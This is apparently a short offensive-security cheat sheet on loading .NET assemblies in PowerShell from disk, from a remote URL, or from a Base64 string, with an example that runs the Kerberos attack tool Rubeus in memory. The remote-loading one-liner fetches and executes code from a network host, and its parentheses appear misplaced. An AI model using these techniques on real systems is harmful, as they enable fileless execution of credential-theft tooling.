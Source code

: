 # *PowerShell* Assembly Loading

## Loading

### Disk
```powershell
[System.Reflection.Assembly]::LoadFrom('<path_to_file>')
```

### HTTP(S) URL
```powershell
[System.Reflection.Assembly]::Load((Invoke-WebRequest '<http(s)>://<host>:<port>/<uri>')).Content
```

### Base64
```powershell
[System.Reflection.Assembly]::Load([Convert]::FromBase64String('<base64_string>'))
```

***

## Execution
```powershell
# [<PublicNamespace>.<PublicClass>]::Function(<arguments>
[Rubeus.Program]::Main("klist")
```